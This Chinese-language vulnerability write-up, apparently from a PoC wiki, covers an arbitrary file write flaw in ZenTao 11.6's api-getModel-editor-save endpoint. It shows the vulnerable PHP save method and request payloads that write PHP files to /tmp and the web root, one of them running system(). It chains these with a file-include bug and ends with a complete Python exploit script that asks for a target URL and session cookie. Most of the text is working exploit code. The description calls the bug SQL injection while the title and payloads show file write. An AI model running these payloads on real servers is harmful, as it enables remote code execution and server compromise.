

# 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 漏洞影响

```
禅道 11.6
```

## 环境搭建

这里使用docker环境搭建

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 [**http://xxx.xxx.xxx.xxx:8084**](http://xxx.xxx.xxx.xxx:8084) 按步骤安装即可


## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 **禅道 11.6版本 SQL注入漏洞** 关于此漏洞的完整分析

查看**module/api/ediyor/moudel.php**下的**save方法**

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```

**$filePath参数和$fileContent参数** 我们是可控的

调用方法往 **/tmp**写入一个**phpinfo()**

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell.php

POST:fileContent=<?php phpinfo();?>
```


在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1
```


也可以写入网站目录中

先获取地址

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

POST：fileContent=<?php system('find / -name ioncube.php')?>');?>
```

访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)


得到目录为 **/app/zentaopma/www**

请求改为

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

再去访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)则会再网站目录下生成 xxx.php 文件


## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                        \033[0m')
    print('+  \033[34mVersion: zentao version = 11.6                                    \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    data = {"fileContent":"<?php phpinfo();?>"}
    write_url = target_url + "/api-getModel-editor-save-filePath=/tmp/test"
    try:
        response = requests.post(url=write_url, data=data, headers=headers, timeout=10)
        print("\033[32m[o] 尝试写入php文件... \033[0m")
    except:
        print("\033[31m[x] 写入php文件失败 \033[0m")
        sys.exit(0)

def POC_3(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    vuln_url = target_url + "/api-getModel-api-getMethod-filePath=/tmp/test/1"
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=10)
        if "System" in response.text:
            print("\033[32m[o] 成功写入文件，存在漏洞, 访问 {}/api-getModel-api-getMethod-filePath=/tmp/test/1/ 查看 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 读取php文件失败 \033[0m")
    except:
        print("\033[31m[x] 读取php文件失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, zentaosid)
    POC_3(target_url, zentaosid)
```

